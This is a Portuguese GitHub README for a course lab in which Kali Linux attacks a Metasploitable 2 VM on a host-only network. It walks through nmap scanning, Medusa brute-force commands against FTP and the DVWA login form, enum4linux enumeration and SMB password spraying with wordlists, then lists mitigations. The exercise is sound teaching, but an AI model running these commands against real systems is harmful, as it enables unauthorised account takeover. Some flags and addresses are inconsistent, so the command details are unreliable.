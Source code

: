 **Projeto: Ataques de Força Bruta com Kali + Medusa (Ambiente Controlad**o)



Este repositório contém a documentação do desafio DIO: montar um ambiente com Kali Linux e Metasploitable 2, usar a ferramenta Medusa para executar ataques de força bruta em serviços (FTP, formulários web, SMB), registrar comandos, wordlists simples, evidências e recomendações de mitigação. Tudo pensado para ambiente de teste controlado (VirtualBox — host-only / rede interna).



⚠️ **Aviso legal: execute estes testes apenas em ambientes controlados e com autorização explícita. Ataques contra sistemas que você não possui/permissão são ilegais.**



* Conteúdo do repositório
* README.md (este arquivo)
* commands.txt (todos os comandos usados)
* images/ (screenshots)



**Objetivos do projeto:**



1. Configurar duas VMs (Kali e Metasploitable 2) no VirtualBox com rede host-only / interna.
2. Realizar ataques de força bruta com Medusa em FTP, formulário web e password spraying no SMB (com enumeração de usuários).
3. Documentar wordlists, comandos, validação de acesso e recomendações de mitigação.
4. Estrutura das VMs (configuração sugerida)
5. Instalar VirtualBox.
6. Criar rede Host-Only (ou Internal Network) em VirtualBox (ex: vboxnet0).
7. VM Kali: adaptador 1 → NAT (internet, opcional para instalar pacotes), adaptador 2 → Host-Only vboxnet0 (IP 192.168.56.102).
8. VM Metasploitable2: 1 adaptador → Host-Only vboxnet0 (IP 192.168.56.101).
9. Verifique conectividade: no Kali, ping 192.168.56.101.
10. Kali Linux ( medusa, nmap, enum4linux)
11. Metasploitable 2 (contém serviços FTP, SMB, DVWA etc).
12. Medusa (audit tool para brute force; módulo ex.: ftp, http\_form, smbnt).



**Comandos - varredura inicial**



Descobrir serviços com nmap:


```bash
nmap -sV -p 21,22,80,139,445 192.168.56.101
```


**Ataque FTP com Medusa**



Objetivo: força bruta contra usuário conhecido (ex: admin) com uma wordlist pequena.



\# Exemplo: testar usuário admin com wordlists no host 192.168.56.101

```bash
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6
```


**Explicação das flags:**



-h host alvo



-u usuário único (use -U para arquivo de usuários)



-P caminho da wordlist de senhas



-M ftp módulo FTP



-T 6 threads (ajuste conforme ambiente)



-f encerra ao encontrar credenciais válidas



Validação: após encontrar credenciais, faça login com ftp:


```bash
ftp 192.168.56.101
```


**Ataque a formulário web (DVWA) com Medusa (http\_form)**



DVWA costuma ter login em /dvwa/login.php. Exemplo de uso do módulo http\_form (sintaxe pode variar conforme versão do Medusa; ajustar conforme sua instalação):



\# Exemplo genérico de http\_form (substitua os campos conforme o formulário real)

```bash
-m PAGE: medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http \

-m FORM: 'username=^USER^\&password=^PASS^\&Login=Login' \

-m 'FAIL=Login failed' -t 6
```

Validação: tente fazer login no navegador usando as credenciais encontradas



**Password spraying em SMB (com enumeração de usuários)**



* Fluxo recomendado:
* Enumerar usuários (usar enum4linux)
* Fazer password spraying: testar um conjunto pequeno de senhas em muitos usuários (evita lockouts por tentativa excessiva em um único usuário).



\# Enumeração com enum4linux

```bash
enum4linux -a 192.168.56.101 | tee enum4_output.txt
```


\#Crie wordlists conforme ajuste:


```bash
echo -e "user\\nmsfadmin\\nservice" > smb\_users.txt
```

```bash
echo -e "password\\n123456\\nWelcome123\\nmsfadmin" > senhas spray.txt
```


Medusa smbnt (sintaxe genérica — ajuste conforme versão):



\# Usando arquivo de usuários (-U) e uma pequena wordlist (-P)

```bash
medusa -h 192.168.56.101 -U smb\_users.txt -P senhas\_spray.txt -M smbnt -t 2 -T 50
```


* Os parâmetros -t 2 (threads) -T 50 (timeout em segundos)
* ferramentas SMB de brute‑force normalmente tentam combinações de usuário × senha. Se você fornece uma lista de usuários e uma lista de senhas, a ordem pode ser: vertical (por usuário): para cada usuário tenta muitas senhas; ou horizontal / spraying: para vários usuários tenta poucas senhas comuns.



Validação: se houver credenciais válidas, usar smbclient para acesso:


```bash
smbclient -L //192.168.56.20 -U msfadmin
```


**Recomendações de mitigação (boas práticas):**



* Política de senhas fortes: comprimento mínimo, complexidade, bloqueio após tentativas falhas.
* Rate-limiting e account lockout (com política para evitar lockouts errôneos).
* Autenticação multifator (MFA) onde possível.
* Monitoramento/alertas: IDS/IPS, logs de autenticação e alertas para muitas tentativas de login.
* Segregação de serviços e atualizações (manter serviços atualizados).
* Hardening: desabilitar serviços desnecessários; configurar FTP seguro (SFTP/FTPS) ou desativar FTP.
* Whitelist de IPs para serviços administrativos, quando aplicável.
* Educação: conscientizar sobre reutilização de senhas e engenharia social.





